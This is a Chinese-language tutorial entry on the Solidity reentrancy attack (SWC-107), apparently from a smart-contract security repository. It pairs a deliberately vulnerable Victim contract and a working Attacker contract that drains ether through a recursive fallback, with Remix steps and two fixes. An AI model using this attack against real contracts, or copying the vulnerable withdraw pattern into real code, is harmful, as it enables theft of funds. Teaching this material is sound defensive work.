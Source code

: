 # 攻击名称
可重入攻击(Reentrancy)
# 攻击分类[CWE-841](https://swcregistry.io/docs/SWC-107)
代码实现与预期行为不一致
# 攻击描述
主要的风险就是调用外部合约会接管合约的控制流。在可重入攻击中，恶意合约在被攻击合约的第一个函数执行完成前在再次调用合约，这可能导致函数调用与预期行为不一致。核心流程与原理如下:
![](/entries/SW107-Reentrancy/concept.png)
# 合约案例
[完整代码和文档](https://github.com/dajuguan/SmartContractSecurity/tree/main/entries/SW107-Reentrancy).
## 被攻击合约
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.6.10;
contract Victim {
    mapping(address=> uint256) public balances;
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!");

        balances[msg.sender] -= amount;
    }

    function getBalance() public view returns(uint){
        return address(this).balance;
    }
}
```

## 攻击合约
```
contract Attacker{
    Victim public victim;
    constructor(address _victimAddr) public {
        victim = Victim(_victimAddr);
    }

    function beginAttack() external payable{
        require(msg.value >= 1 ether);
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    }

    fallback() external payable{
        //死循环的话一毛也取不到
        if (address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
        }
    }

    function getBalance() public view returns(uint){
        return address(this).balance;
    }
}
```

## 操作示例
1. 采用Remix账户1部署Victim合约，然后调用deposit存入4个ETH
2. 采用Remix账户1部署Attacker合约，然后调用beginAttack并传入1个ETH
3. Victim合约GetBalance: 0, Attacker合约GetBalance 5

# 防止策略
1. 切换存储更新和外部调用的顺序，防止启用攻击的重新进入条件。遵循“检查-效果-相互作用”设计模式。

```
contract Victim{
    ...
    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount);
        balances[msg.sender] -= amount;
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!"); 
    }
```

2.加锁。

```

    bool internal locked;
    modifier noReentrant(){
        require(!locked, "No re-entrancy!");
        locked = true;
        _;
        locked = false;
    }

    function withdraw(uint256 amount) public noReentrant{
        require(balances[msg.sender] >= amount);
        (bool success,) = msg.sender.call{value:amount}("");
        require(success, "Fail to send ether!");

        balances[msg.sender] -= amount;
    }
```